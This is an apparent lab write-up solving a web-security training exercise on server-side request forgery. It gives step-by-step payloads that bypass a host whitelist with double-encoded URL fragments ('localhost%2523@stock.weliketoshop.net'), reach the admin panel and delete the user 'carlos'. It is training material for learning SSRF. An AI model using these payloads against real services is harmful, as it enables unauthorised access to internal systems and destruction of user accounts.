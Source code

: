 # SSRF with whitelist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed an anti-SSRF defense you will need to bypass.

note:
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
control + u for url encoded
http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1
ctrl + shift =u url decoded

---

### step 1

stockApi=http://username#@stock.weliketoshop.net
respoonse => "External stock check host must be stock.weliketoshop.net"

ctrl + u => stockApi=http://username%23@stock.weliketoshop.net
response => "External stock check host must be stock.weliketoshop.net"

again ctrl + u => stockApi=http://username%2523@stock.weliketoshop.net
response => HTTP/1.1 500 Internal Server Error

remove http://username add http://localhost
stockApi=http://localhost%2523@stock.weliketoshop.net
response => 200 ok

![screenshot](./images/lab6_localhost_response.png)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin
response 200 ok

![screenshot](./images/lab6_localhost_response_admin_panel.png)

stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos

send request => 302 Found

lab solved
